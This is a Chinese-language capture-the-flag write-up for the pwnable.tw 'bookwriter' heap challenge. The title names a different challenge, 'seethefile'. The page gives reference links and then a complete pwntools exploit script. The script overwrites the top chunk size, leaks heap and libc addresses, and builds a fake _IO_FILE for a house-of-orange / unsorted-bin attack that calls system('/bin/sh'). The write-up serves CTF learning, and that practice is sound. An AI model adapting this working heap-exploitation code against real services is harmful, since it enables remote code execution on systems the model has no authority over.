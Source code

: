 ```yaml
---
title: 和媳妇一起学Pwn 之 seethefile
date: 2020-04-04 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  BookWriter
---
```


> 本题总结点较多，之后总结

- 题目地址：[https://pwnable.tw/challenge/#24](https://pwnable.tw/challenge/#24)

## 参考

- [house of orange 漏洞](http://blog.eonew.cn/archives/1093)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

- [pwnable.tw 1~10题 writeup](https://veritas501.space/2018/02/21/pwnable.tw%201~10%E9%A2%98%20writeup/)
- [pwnable.tw 11~18题 writeup](https://veritas501.space/2018/03/04/pwnable.tw%2011~18%E9%A2%98%20writeup/)

- [pwnable.tw部分writeup(不定期更新)](https://0xffff.one/d/410)
- [pwnable.tw部分writeup(不定期更新)_Vol.2](https://0xffff.one/d/469)

- [BookWriter Writeup](http://weaponx.site/2018/06/11/BookWriter-Writeup-pwnable-tw/)
- [pwnable tw bookwriter writeup](https://sunichi.github.io/2018/07/02/pwnable-tw-bookwriter/)
- [BookWriter 解题思路](http://p4nda.top/2017/12/15/pwnable-tw-bookwriter/)
- [pwnable.tw bookwriter writeup – house of orange 的巧妙利用](http://blog.eonew.cn/archives/1140)
- [pwnable.tw中的bookwriter](https://www.lyyl.online/2019/10/08/pwnable-tw%E4%B8%AD%E7%9A%84bookwriter/)
- [从BookWriter看house_of_orange原理](https://bbs.pediy.com/thread-223334.htm)
- [Pwnable.tw之BookWriter](https://bbs.pediy.com/thread-226694.htm)


## exp

```python
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./bookwriter")
libc   = ELF("./libc_64.so.6")
io     = remote("chall.pwnable.tw",10304)

uu64        = lambda data          :  u64(data.ljust(8, b'\0'))
sla         = lambda delim,data    :  (io.sendlineafter(delim, data))
sa          = lambda delim,data    :  (io.sendafter(delim, data))
start       = lambda author        :  (sla("Author :",author))
add         = lambda size,content  :  (sla("choice :","1"),sla("page :",str(size)),sa("Content :",content))
view        = lambda num           :  (sla("choice :","2"),sla("page :",str(num)))
edit        = lambda num,content   :  (sla("choice :","3"),sla("page :",str(num)),sla("Content:",content))
show        = lambda               :  (sla("choice :","4"))

# fill author  
start("x"*60+'xuan')

# overlap and modify top chunk size 
add(0x18,'a')
edit(0,'b'*0x18)
edit(0,'\x00'*0x18+'\xe1\x0f')

# leak heap
show();io.recvuntil("xuan")
heap_addr = uu64(io.recvuntil("\n")[:-1])
sla(") ",'0')

# move top chunk to unsorted bin
add(0x1000,'a')
for i in range(7):
    add(0x18,'xuanxuan')

# leak libc
view(2);io.recvuntil("xuanxuan")
libc.address = uu64(io.readline()[:-1])-0x3c4188

# make fake file 
data = "\x00"*(0x20*7+0x10)
payload  = "/bin/sh\x00" + p64(0x61) 
payload += p64(0) + p64(libc.symbols['_IO_list_all']-0x10) 
payload += p64(0) + p64(1)
payload = payload.ljust(0xd8, "\x00")
payload += p64(heap_addr + 0x20*7+0x10 + 0xd8 + 0x8)+p64(libc.symbols['system'])*4

# use unsorted bin attack and FOSP to getshell
edit(0,data+payload)
sla("choice :","1");sla("page :",str(0x10))
io.interactive()
```